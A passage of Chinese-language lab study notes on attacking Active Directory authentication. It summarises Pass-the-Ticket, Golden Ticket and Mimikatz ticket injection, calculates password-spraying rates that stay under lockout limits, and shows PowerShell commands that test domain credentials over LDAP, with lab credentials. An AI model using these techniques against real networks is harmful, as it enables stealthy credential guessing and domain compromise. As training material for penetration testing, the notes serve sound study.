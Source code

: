 >[!Important]
**如何利用 ticket 進行攻擊**
>1. 竊取 TGS：
>- 只允許存取特定的服務。
>- Pass-the-Ticket（PTT）攻擊：直接使用竊取的 TGS 來存取受保護資源。
>2. 竊取 TGT：
>- 允許攻擊者偽裝成目標使用者，請求新的 TGS 來存取 任意資源。
>- Golden Ticket 攻擊：偽造 TGT 來完全掌控 AD 網域。
>3. Mimikatz 票據提取與注入：
>- Export：將 TGT/TGS ticket 存儲到硬碟。
>- Inject：將 TGT/TGS 重新導入 LSASS 記憶體，從而在目標機器上模擬受害者身份。

## Performing Attacks on Active Directory Authentication
介紹針對 Active Directory（AD）身份驗證 的各種攻擊方法
### Password Attacks (Password Spraying)
在 AD 環境中，過於頻繁的密碼錯誤輸入可能會導致帳戶鎖定，引起系統管理員的警覺。因此，需要使用密碼噴灑攻擊來測試大量帳戶，使用少量常見密碼來嘗試登入，而不是對單一帳戶進行暴力破解。\
可以從 `net accounts` 取得的資訊:
```
┌──(chw㉿CHW)-[~]
└─$ xfreerdp /cert-ignore /u:jeff /d:corp.com /p:HenchmanPutridBonbon11 /v:192.168.151.75
```
```
PS C:\Windows\system32> net accounts
Force user logoff how long after time expires?:       Never
Minimum password age (days):                          1
Maximum password age (days):                          42
Minimum password length:                              7
Length of password history maintained:                24
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
Computer role:                                        WORKSTATION
The command completed successfully.
```
> `Lockout threshold`：連續 5 次錯誤輸入密碼，會導致帳戶鎖定\
`Lockout duration`：30 分鐘後解除鎖定\
`Lockout observation window`：30 分鐘內錯誤超過 5 次才會觸發鎖定\
>>表示可以每 30 分鐘內嘗試 4 次錯誤密碼輸入\
>>可以在 24 小時內對每個網域使用者嘗試 192 次登錄

#### 1. 使用 LDAP 和 ADSI（低速、隱蔽）
透過 LDAP 協議與 ADSI（Active Directory Service Interfaces） 進行身份驗證。低速但較隱蔽，不會產生大量網路流量。\
在 [Active Directory - Manual Enumeration](#Adding-Search-Functionality-to-our-Script) 章節中，使用 DirectoryEntry 對 Domain controller 進行查詢\
透過 DirectoryEntry  Object 來測試帳戶密碼是否正確：
```
PS C:\Windows\system32> $domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
PS C:\Windows\system32> $PDC = ($domainObj.PdcRoleOwner).Name
PS C:\Windows\system32> $SearchString = "LDAP://"
PS C:\Windows\system32> $SearchString += $PDC + "/"
PS C:\Windows\system32> $DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
PS C:\Windows\system32> $SearchString += $DistinguishedName
PS C:\Windows\system32> New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")

distinguishedName : {DC=corp,DC=com}
Path              : LDAP://DC1.corp.com/DC=corp,DC=com
```
>`GetCurrentDomain()`：取得當前 Windows 設備所屬的 AD 網域資訊\
>`PdcRoleOwner`：取得 Primary Domain Controller (PDC) 的名稱\
>`LDAP://$PDC/DC=corp,DC=com`: 組合 LDAP 路徑\
>創建 System.DirectoryServices.DirectoryEntry：\